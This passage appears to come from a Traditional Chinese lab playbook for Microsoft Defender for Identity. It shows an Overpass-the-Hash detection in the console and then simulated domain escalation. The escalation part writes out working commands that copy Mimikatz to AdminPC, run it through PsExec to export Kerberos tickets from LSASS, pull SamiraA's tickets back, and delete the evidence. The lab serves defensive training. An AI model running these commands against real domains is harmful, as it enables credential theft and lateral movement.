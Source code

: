 透過查看[!INCLUDE [Product short](includes/product-short.md)] 主控台，我們可以看到下列事項：

![[!INCLUDE [Product short](includes/product-short.md)] 偵測到 Overpass-the-Hash 攻擊](media/playbook-lateral-opthdetection.png)

[!INCLUDE [Product short](includes/product-short.md)] 偵測到 RonHD 的帳戶在 VictimPC 上遭到入侵，並接著用於成功取得 Kerberos TGT。 如果我們在警示中按一下 RonHD 的名稱，我們會前往 RonHD 的邏輯活動時間軸，我們可以在其中進行進一步調查。

![在邏輯活動時間軸中檢視偵測](media/playbook-lateral-opthlogicalactivity.png)

在安全性作業中心中，我們的安全性分析師會察覺認證遭到入侵，而且可以快速地調查所存取的資源。

## <a name="domain-escalation"></a>網域提升

從模擬的攻擊中，我們不但可以存取 AdminPC，我們還在 AdminPC 上驗證了系統管理員權限。 我們現在可以橫向移動至 AdminPC，並收集更多的認證。

在這裡，我們將：

- 在 AdminPC 上發動 Mimikatz
- 在 AdminPC 上收集票證
- 傳遞票證成為 SamiraA

### <a name="pass-the-ticket"></a>傳遞票證

從 **VictimPC** 上 *RonHD* 的內容中執行的命令提示字元，周遊至我們常見攻擊工具的所在位置。 然後，執行 *xcopy* 以將那些工具移至 AdminPC：

```dos
xcopy mimikatz.exe \\adminpc\c$\temp
```

出現提示時按下 `d`，指出 "temp" 資料夾是 AdminPC 上的目錄。

![將檔案複製到 AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

在 AdminPC 上發動 Mimikatz 時，我們將會使用 PsExec 從遠端執行它。

1. 周遊至 PsExec 所在的位置，並執行下列命令：

    ```dos
    PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
    ```

    該命令將會執行，並匯出 LSASS.exe 處理程序中找到的票證，然後將其放在 AdminPC 上的目前目錄中。

1. 我們需要從 AdminPC，將票證複製回 VictimPC。 我們只對此範例中的 SamiraA 票證感興趣，因此請執行下列命令：

    ```dos
    xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
    ```

    ![將收集到的認證從 AdminPC 匯回到 VictimPC](media/playbook-escalation-export_tickets2.png)

1. 讓我們在 AdminPC 上刪除檔案以清除我們的追蹤。
